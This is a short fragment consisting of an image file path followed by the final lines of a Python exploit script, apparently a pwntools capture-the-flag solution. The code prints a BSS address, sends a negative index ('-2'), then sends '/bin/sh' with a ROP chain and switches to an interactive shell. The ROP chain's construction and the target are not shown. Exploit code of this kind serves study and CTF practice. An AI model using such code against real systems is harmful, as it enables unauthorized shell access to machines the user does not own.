 ```python
    print(hex(e.bss()))
    r.sendline(b"-2")
    r.sendline(b"/bin/sh\x00" + rop)

    r.clean()
    r.interactive()

if __name__ == "__main__":
    main()
```